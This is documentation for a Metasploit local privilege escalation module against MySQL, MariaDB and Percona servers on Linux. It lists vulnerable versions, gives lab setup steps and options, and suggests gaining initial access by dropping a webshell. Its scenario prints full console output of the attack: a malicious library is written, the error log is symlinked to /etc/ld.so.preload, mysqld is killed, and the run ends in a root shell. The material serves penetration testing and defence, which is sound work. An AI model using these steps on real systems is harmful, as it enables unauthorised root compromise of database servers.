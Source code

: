 
## Notes

This exploit was tested on ubuntu 14 and 16. As it relies on log file location and service restarting, success on other linux distributions depends greatly.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. mysql must be started by running mysql_safe
  2. the error log must be active
  3. mysql logging through syslog must not enabled
  4. mysql automatic restart must be enabled

  Using Ubuntu 16.04:

  1. install mariadb - `apt-get -y install mariadb-server`
  2. disable syslog - `sed -i -e "s/syslog/#syslog/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  3. enable error log - `sed -i -e "s/skip_log_error/#skip_log_error/g" /etc/mysql/mariadb.conf.d/50-mysqld_safe.cnf`
  4. enable service - `systemctl enable mysql.service`
  5. start service - `systemctl start mysql.service`

This module has been tested against the following versions of mysql running on Ubuntu 16.04:

  1. MariaDB 10.0.27

On Ubuntu 14.04:

  1. MySQL 5.5.35
  2. MariaDB 5.5.52

On Debian 8.6

  1. MySQL 5.5.53

This module was not tested against, but may work against:

  * MySQL
     <= 5.5.51
     <= 5.6.32
     <= 5.7.14

  * MariaDB
     <= 5.5.50

  * Percona Server
     < 5.5.51-38.2
     < 5.6.32-78-1
     < 5.7.14-8

  * Percona XtraDB Cluster
     < 5.6.32-25.17
     < 5.7.14-26.17
     < 5.5.41-37.0

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/mysql_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **ErrorLog**

  The mysql service error log file. The location of this file is set on the configuration files. Defaults to /var/log/mysql/error.log

  **BackdoorShell**

  The shell that will be launched using elevated privileges.  Defaults to /bin/bash

  **COMPILE**

  If we should live compile on the system, or drop pre-created binaries.  `Auto` will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)
### MariaDB 10.0.27 (MariaDB-0ubuntu0.16.04.1)

#### Initial Access

    Use whatever means to get a session back to metaploit ith the mysql account, usually dropping a webshell, connecting back to metaploit and escalate to mysql.

#### Escalate to root

msf exploit(mysql_priv_esc) >
[*] Sending stage (36 bytes) to 192.168.205.64
[*] Command shell session 45 opened (192.168.205.52:443 -> 192.168.205.64:51400) at 2016-11-16 21:44:16 +0000

msf exploit(mysql_priv_esc) > set session 45
session => 45
msf exploit(mysql_priv_esc) > run

[+] mysqld_safe is running
[+] The current user is mysql
[*] Checking if gcc are installed
[*] Checking if gcc are installed
[*] Dropping pre-compiled exploit on system
[*] Writing privesclib to /tmp/fYAMgzW5.so
[*] Max line length is 65537
[*] Writing 8240 bytes in 1 chunks of 19877 bytes (octal-encoded), using printf
[*] Seting up the preload trap
[*] cp /bin/bash /tmp/mysqlrootsh
[*] touch -f /var/log/mysql/error.log; mv /var/log/mysql/error.log /var/log/mysql/error.log.tmp && ln -s /etc/ld.so.preload /var/log/mysql/error.log
[*] kill $(pgrep mysqld)
[*] /bin//sh: 27: kill: Operation not permitted

[*] Waiting for mysqld to restart...
[*] Executing escalation.
[*] echo /tmp/fYAMgzW5.so > /etc/ld.so.preload
[*] chmod 755 /etc/ld.so.preload
[*] /usr/bin/sudo 2>/dev/null >/dev/null
[*] /tmp/mysqlrootsh -p -c "rm -f /etc/ld.so.preload; rm -f /tmp/fYAMgzW5.so"
[*] /tmp/mysqlrootsh -p
[*] Cleanup done.
[!] This exploit may require manual cleanup of '/tmp/mysqlrootsh' on the target
msf exploit(mysql_priv_esc) > sessions -i 45 -c "id"
[*] Running 'id' on shell session 45 (192.168.205.64)
uid=112(mysql) gid=121(mysql) euid=0(root) groups=121(mysql)
